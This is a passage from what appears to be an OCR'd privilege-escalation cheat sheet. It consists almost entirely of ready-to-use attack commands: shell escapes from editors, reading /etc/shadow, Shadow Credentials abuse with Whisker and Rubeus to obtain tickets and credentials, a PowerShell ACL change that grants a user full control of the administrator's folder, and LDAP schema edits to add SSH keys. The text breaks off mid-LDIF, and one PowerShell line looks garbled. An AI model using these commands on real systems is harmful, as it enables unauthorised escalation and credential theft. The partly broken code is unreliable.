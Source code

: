```text
Ctrl+R + Ctrl+X
reset; sh 1>&0 2>&0
```

Or

```text
Ctrl+W
/etc/shadow
```

### Increase access in vi

```text
:!/bin/sh
```


### Increase access by ShadowCredentials method

```text
whisker.exe add /target:user
.\Rubeus.exe askgt /user:user /certificate:<base64-cert> /password:"password" /domain:domain /dc:DC.domain.dev /getcredentials /show
```


### Increase access using acl

```text
$user = "megacorp\jorden"
$folder = "C:\Users\administrator"
$acl = get-acl $folder
$aclpermissions = $user, "FullControl", "ContainerInherit, ObjectInherit", "None", "Allow"
$aclrule = new-object System.Security.AccessControl.FileSystemAccessRule $aclpermissions
$acl.AddAccessRule($aclrule)
set-acl -path $folder -AclObject $acl
get-acl $folder | folder
```

### Increase access with ldap

```text

To enable ssh using ldap

0. exec ldapmodify -x -w PASSWORD
1. Paste this
dn: cn=openssh-lpk,cn=schema,cn=config
objectClass: olcSchemaConfig
cn: openssh-lpk
olcAttributeTypes: ( 1.3.6.1.4.1.24552.500.1.1.1.13 NAME 'sshPublicKey'
   DESC 'MANDATORY: OpenSSH Public key'
   EQUALITY octetStringMatch
   SYNTAX 1.3.6.1.4.1.1466.115.121.1.40)
olcObjectClasses: ( 1.3.6.1.4.1.24552.500.1.1.2.0 NAME 'ldapPublicKey' SUP top AUXILIARY
   DESC 'MANDATORY: OpenSSH LPK objectclass'
   MAY ( sshPublicKey $ uid )
   )

To improve access to the desired user and user group

2. exec ldapmodify -x -w PASSWORD
3. Paste this
dn: uid=UID,ou=users,ou=linux,ou=servers,dc=DC,dc=DC
changeType: modify
add: objectClass
```